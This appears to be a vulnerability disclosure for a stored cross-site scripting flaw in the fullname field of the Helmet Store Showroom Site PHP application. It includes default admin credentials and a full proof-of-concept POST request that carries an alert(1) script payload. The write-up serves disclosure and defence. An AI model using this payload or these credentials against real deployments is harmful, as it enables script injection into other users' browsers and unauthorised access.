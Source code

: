 # Helmet Store Showroom Site Syste - XSS

A vulnerability classified as problematic was found in Helmet Store Showroom Site Syste. This vulnerability affects $fullname code. The manipulation of the argument /classes/Master.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/classes/Master.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Master.php has XSS

> Payload: <sCrIpT>alert(1)</ScRiPt>

XSS because $fullname can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/8.png)

## Payload

```s
POST http://localhost/CVE/hss/classes/Master.php?f=save_inquiry HTTP/1.1
Host: localhost
Content-Length: 646
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3B4Pe4WANXKPwFN1
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/?page=view_product&id=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="id"


------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="helmet_id"

3
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="fullname"

111<sCrIpT>alert(1)</ScRiPt>
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="email"

11@QQ.COM
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="contact"

11
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="message"

11
------WebKitFormBoundary3B4Pe4WANXKPwFN1--
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/9.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/10.png)
